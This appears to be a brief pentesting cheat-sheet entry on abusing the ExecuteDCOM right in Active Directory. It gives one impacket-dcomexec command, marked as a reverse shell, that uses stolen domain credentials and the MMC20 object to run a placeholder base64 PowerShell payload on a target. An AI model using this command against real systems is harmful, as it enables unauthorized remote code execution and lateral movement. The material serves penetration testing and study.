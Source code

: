 ```yaml
---
title: "ExecuteDCOM"
date: 2024-8-3
tags: ["ExecuteDCOM", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


### Abuse #1: ExecuteDCOM

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Revshell
impacket-dcomexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' '<POWERSHELL_3_BASE64>' -silentcommand -object MMC20
```

{{< /tabcontent >}}
